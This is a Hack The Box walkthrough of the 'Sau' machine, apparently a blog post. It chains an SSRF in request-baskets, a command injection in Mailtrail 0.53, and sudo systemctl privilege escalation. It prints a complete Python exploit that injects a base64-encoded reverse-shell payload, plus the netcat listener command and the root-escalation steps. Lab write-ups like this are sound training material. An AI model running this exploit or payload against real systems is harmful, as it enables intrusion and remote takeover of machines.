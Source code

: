 ```yaml
---
layout: post
title: SAU
categories: [Hack The Box, Easy]
tags: [SSRF, RCE]
image: https://i.ibb.co/0nnBwRb/sau.png
---
```


Hello and welcome to my first writeup on Hack the box machines. We will be handling an easy machine named Sau. We will use real vulnerabilities that were discovered before and we will also make use of exploits that had been used before. Let's begin.

# Enumaration

First of all we are going to run a NMAP scan to scan for open ports.

![](https://i.ibb.co/bFPd1Sv/nmap.png) 

![](https://i.ibb.co/Z23FwTJ/report.png)

From the scan we can see that port 22 is open on which ssh runs. But since we have no credentials we would not be able to use this. We can then see that the port 80 has been filtered which would mean we cannot communicate with it from outside the network. Then port 55555 would definately catch our attention. From the report we can see that the port is accessible on our browser and it allows for the get option.

We can access this by `http://machine_ip:55555` which will lead us to a page with request baskets.

# Request-baskets SSRF

When we visit the page this is what we can see

![](https://i.ibb.co/CWbzyxx/55555.png) 

This is basically a page which creates request-baskets. What is interesting is we have a service and a version running. We can look this up and we see that we have a lurking vulnerability which is `Server Side Request Forgery`. This vulnerability exists due to some improper validation in a path and would ideally be leveraged to connect to any HTTP server on the network. 

To exploit this we need to create a basket and change some of the configurations on the basket.

![](https://i.ibb.co/p43QH7R/configuration.png)

First we need to set an URL where the requests will be forwarded to. We can use localhost and set the port to port `80`.

Secondly we need to set `insecure_tls` to true which will ideally bypass the certificate verification.
Next, we need to set `proxy response` to true which will send response of the forwarded server back to our client.

Lastly, setting `expand_path` set to true makes forward_url path expanded when original http request contains compound path.

From here we only need to visit the URL so as to trigger this vulnerability.

# Exploiting Mailtrail

So when we visit the URL we can see a page that looks like this

![](https://i.ibb.co/bKqqHK3/mailtrail.png)

We do not see much but we get a service running and its version. We can then look for the vulnerabilities associated with the service and version running.

We then can get a python exploit script which would exploit a command injection vulnerability. The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command
The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port

The python script is as follows:
   
    #!/bin/python3

    import sys
    import os
    import base64

    # Arguments to be passed
    YOUR_IP = sys.argv[1]  # <your ip>
    YOUR_PORT = sys.argv[2]  # <your port>
    TARGET_URL = sys.argv[3]  # <target url>

    print("\n[+]Started MailTrail version 0.53 Exploit")

    # Fail-safe for arguments
    if len(sys.argv) != 4:
        print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
        sys.exit(-1)


    # Exploit the vulnerbility
    def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
        payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
        encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
        command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
        os.system(command)


    print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
    try:
        exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
        print("\n[+] Successfully Exploited")
        print("\n[+] Check your Reverse Shell Listener")
    except:
        print("\n[!] An Error has occured. Try again!")


First we need to run a netcat listener on our machine, `nc -lnvp port`.

Next we need to execute the exploit example, `python3 exploit.py [ip] [port] [target_url]`.
From here we need to check at our listener for any connections. And we should be connected as a user.

![](https://i.ibb.co/kD3nP6H/user.png)

# Privilege Escalation

Next we should try to escalate our privileges to root. Well we can run `sudo -l` which would help us to know what commands we can run as `sudo`.

![](https://i.ibb.co/sv9GX12/privesc.png)

We see that we can run `systemctl status trail.sevice` as sudo. Then we can run `!sh` and press return.

![](https://i.ibb.co/Fz1H9zr/root.png)

We are root. We can then find our flags.

# Conclusion 
HTB machines are awesome. Happy hacking 
